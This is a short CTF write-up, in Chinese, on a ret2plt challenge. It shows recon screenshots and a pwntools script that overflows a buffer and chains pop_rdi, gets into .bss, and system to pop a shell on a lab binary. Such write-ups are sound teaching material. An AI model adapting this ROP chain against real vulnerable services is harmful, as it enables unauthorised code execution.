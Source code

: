 ```yaml
---
title: Yuawn Pwn ret2plt Write up
published: 2024-08-09
tags: [CTF]
category: Cyber Security
draft: false
image: 'image.png'
---
```


## 前言:

在繼續 lys rop3 前，我們要先學會 ret2plt ㄉ技巧 :D



### Recon

file:
![image](https://hackmd.io/_uploads/r1E_TUf9R.png)

checksec:
![image](https://hackmd.io/_uploads/rk_F68f9C.png)

r2:
![image](https://hackmd.io/_uploads/B1FJhwMcR.png)

objdump:
![image](https://hackmd.io/_uploads/SkKkydMcC.png)

gdb:
![image](https://hackmd.io/_uploads/SJhGWuGcC.png)


目標是先給一個可以寫東西的 address 再用 gets 進行寫入，並寫利用 system 去執行

### exploit

```py
from pwn import *

context(arch="amd64")

r=process('./ret2plt')

pop_rdi=p64(0x0000000000400733)
system=p64(0x0000000000400520)
gets=p64(0x0000000000400530)

bss=p64(0x601070)

r.sendline('a'*0x38+pop_rdi+
           bss+
           gets+ #寫入
           pop_rdi+
           bss+
           system) #執行

r.interactive()

```

### pwned!

![image](https://hackmd.io/_uploads/B1SzoB75R.png)
